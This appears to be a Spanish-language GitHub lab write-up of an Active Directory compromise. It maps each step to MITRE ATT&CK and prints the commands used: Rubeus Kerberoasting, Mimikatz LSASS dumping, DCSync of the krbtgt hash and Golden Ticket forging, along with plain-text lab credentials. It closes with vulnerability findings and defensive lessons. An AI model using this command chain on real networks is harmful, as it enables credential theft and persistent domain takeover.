









# Active Directory Lateral Movement & Privilegie Escalation
 
 ## Introduccion
 Este proyecto documenta un ejercicio completo de **movimiento lateral avanzado** en un entorno Active Directory, demostrando como un atacante puede pasar de un usuario normal a tener control total del dominio.

 ---

 ## Herramientas Utlizadas
 | Herramienta | Proposito | Impacto |
|----------|----------|----------|
| PowerView  | Enumeraion AD   | Alto  |
| Rubeus | Ataques Kerberos  | Alto  |
| Mimikatz  | Credential Dumping   | Critico |
| PowerShell | Automatizacion | Medio |

---

## MAPEO MITRE ATT&CK FRAMEWORK
| Táctica               | Técnica                          | ID         | Herramienta/Comando                        | Descripción                                      | Resultado/Observación                         |
|----------------------|----------------------------------|------------|--------------------------------------------|--------------------------------------------------|------------------------------------------------|
| Acceso Inicial        | Valid Accounts: Domain Accounts | T1078.002  | PowerShell `whoami`                        | Identificación de usuario                       | `server\sebastian`                            |
| Descubrimiento        | Account Discovery: Domain Account| T1087.002  | PowerView `Get-ADUser -Filter *`           | Enumeración de usuarios del dominio             | Lista de usuarios obtenida                    |
| Descubrimiento        | Permission Groups Discovery      | T1069.002  | `net group "Domain Admins" /domain`        | Enumeración de grupos privilegiados             | Identificación de grupos de admins            |
| Descubrimiento        | Remote System Discovery          | T1018      | `Get-ADComputer`                           | Enumeración de equipos del dominio              | Lista de equipos obtenida                     |
| Acceso a Credenciales | Kerberoasting                    | T1558.003  | Rubeus                                     | Solicitud de TGS para cuentas SPN               | Hash de `svc_sql_dev` obtenido                |
| Movimiento Lateral    | Remote Desktop Protocol          | T1021.001  | RDP                                        | Conexión remota a equipo                        | Acceso a `EC2AMAZ-790436V`                    |
| Movimiento Lateral    | Valid Accounts: Domain Accounts | T1078.002  | PowerShell                                 | Reutilización de credenciales                   | Movimiento lateral exitoso                    |
| Acceso a Credenciales | OS Credential Dumping: LSASS     | T1003.001  | Mimikatz `sekurlsa::logonpasswords`        | Extracción de credenciales en memoria           | Credenciales en texto plano                   |
| Acceso a Credenciales | OS Credential Dumping: DCSync    | T1003.006  | Mimikatz `lsadump::dcsync /user:krbtgt`    | Simulación de controlador de dominio            | Hash de `krbtgt` obtenido                     |
| Escalada de Privilegios| Exploitation for Privilege Escalation | T1068 | Múltiples                                   | Explotación de vulnerabilidades                 | Elevación de Domain User a Domain Admin       |
| Persistencia          | Golden Ticket                    | T1558.001  | Mimikatz `kerberos::golden`                | Creación de ticket persistente                  | Acceso persistente como Domain Admin          |
| Persistencia          | Create Account: Local Account    | T1136.001  | `net user /add`                            | Creación de cuenta local                        | Capacidad de crear usuarios confirmada        |
|                      |                                  |            |                                            |                                                  |                                                |


## Metodologia Paso a Paso
**Fase 1: Reconocimiento Inicial**
Objetivo Entender el entorno y identifcar vectores de ataque.
```bash
# 1. Identificar usuario actual y dominio
whoami
# 2. Enumerar grupos del dominio
net group /domain
# 3. Identificar usuario de servicio svc_sql_dev
net user svc_sql_dev /domain
```



**Hallazgo clave:** La cuenta svc_sql_dev
tiene un SPN asociado, lo que la hace vulnerable a **Kerberoasting.**

---
## Fase 2: Kerberoasting Attack
¿Que es Kerberoasting?
Es una tecnica que permite obtener hashes de cuentas de servicios con SPNs, que luego pueden ser crackeados offline.
```bash 
# Ejecutamos Kerberoasting conta el objetivo svc_sql_dev 
[Rubeus.Program]::Main([String[]]) ( ' Kerberoast', '/user:svc_sql_dev', '/format:hashcat', '/nowrap'))
```


**Problema Encontrado:** El hash era complejo y no pudo crackearse debido a las limitaciones de mi hardware, pero **Obtener el hash ya es un hallazgo critico**

---
## Fase 3: Movimiento lateral
**Estrategia alternativa:** Usar tecnicas de password spraying para encontrar credenciales validas.
```bash
# Descubrimiento mediante fuerza bruta controlada.
# Credenciales encontradas: WIN2/Administrator : P@ssw0rdTemp!

# Conexion exitosa a EC2AMAZ-790436V
```
**Movimiento logrado**: SERVER\sebastian -> EC2AMAZ-790436V\Administrator



---

## Fase 4: Credenciales Dumping con Mimikatz
**Mimikatz** es de mi herramientas favoritas dado su potencial increible para extraer credenciales de la memoria (LSASS) donde Windows almacena tickets y contraseñas.
```bash
# Ejecutar Mimikatz desde la nueva posicion 
.\mimikatz.exe
privilegie::debug
sekurlsa::logonpasswords

# Hallazgo CRITICO:
# Usuario: Administrator | Dominio: SERVER | Password : ptr4vfH
```



**Impacto:** Se obtuvieron credenciales de **Domain Admin** en texto claro.

---
## Fase 5: Acceso al Domain Controller
```bash
# Verificacion de Acceso:
whoami
# SERVER/Administrator
```


---

## Fase 6: DCSync Attack 

¿Que es DCSync?
Me permite como atacante simular el comportamiento de un Domain Controller para sincronizar informacion, incluyendo hashes de contraseñas.
```bash
# Desde el DC, extraer el hash krbtgt
lsadump::dcsync /domain:SERVER.local /user:krbtgt
# Hash krbtgt obtenido:
78414f135b9ba9ccd1c0dbacca1ca51
```


**Importancia del hash krbtgt:** Es la **llave maestra** de Active Directory. Con este hash se pueden crear **Golden Tickets**.

---

## Fase 7: Golden Ticket - Persistencia Total
Un ticket de kerberos falsificado permite acceso eterno al dominio, valido por años.
```bash
# Crear Golden Ticket
Kerberos::golden /user:Administrator /domain:SERVER.local / sid:S-1-5-21-4285462477-2225347249-152149327 /
krbtgt:78414f135b9ba9ccd1c0dbacca1ca51 /500
# Se verifica ticket inyectado
klist
# Muestra ticket valido hasta 2035
```


---

## Analisis de Vulnerabilidades
### Criticas
- Cuentas de servicion con SPNs expuestas
- Credenciales en claro en memoria
- Hash krbtgt accesible via DCSync
- Falta de segmentacion de la red

### Medias 
- Politica de contraseñas insuficientes
- Falta de monitoreo de kerberoasting
- Ausencia de LAPS

### Buenas Practicas Identificadas
- Contraseñas complejas en servicios (aunque igual se obtuvieron hashes)

---

## Lecciones Aprendidas 
### Tecnicas
- **Kerberoasting** es efectivo para encontrar servicios SPNs
- **MImikatz** sigue siendo la herramienta mas poderoas para dumping 
- **DCSync** proporciona acceso total al dominio
- **Golden Tickets** ofrece persistencia indefinida

### Estrategicas
- El movimiento lateral es facilen AD sin segmentacion
- Una sola maquina comprometida puede llevar al diminio completo
- La persistencia es mas peligrosa que el acceso inicial

---

## Conlusion
 Este proyecto demostro que **sin controles adecuados,** un atacante puede comprometer completamente un dominio Active Directory partiendo de credenciales basicas de usuario. La combinacion de **Kerberoasting, Credential Dumping y DCSync** represnta una cadena de ataque extremadamente efectiva.

 **La defensa de Active Directory requiere defensas en profundidad,** no solo perimetrales.